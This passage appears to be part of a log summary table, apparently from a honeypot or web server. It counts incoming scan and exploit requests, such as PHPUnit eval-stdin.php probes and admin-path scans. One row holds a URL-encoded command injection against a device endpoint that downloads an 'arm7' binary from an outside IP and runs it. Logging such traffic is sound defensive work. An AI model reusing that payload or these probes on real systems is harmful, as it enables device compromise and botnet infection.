 |  29 |                     3 | GET /robots.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|  30 |                     3 | GET /.well-known/security.txt HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                             |
|  31 |                     3 | SSH-2.0-Go                                                                                                                                                                                                                                                                                                                                                                                                                         |
|  32 |                     3 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                       |
|  33 |                     3 | GET /sitemap.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|  34 |                     2 | GET /solr/admin/info/system?wt=json HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
|  35 |                     2 | GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                   |
|  36 |                     2 | OPTIONS / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  37 |                     2 | OPTIONS / RTSP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  38 |                     2 | POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                  |
|  39 |                     2 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                       |
|  40 |                     2 | POST /Autodiscover/Autodiscover.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
|  41 |                     2 | POST /cgi-bin/cstecgi.cgi HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |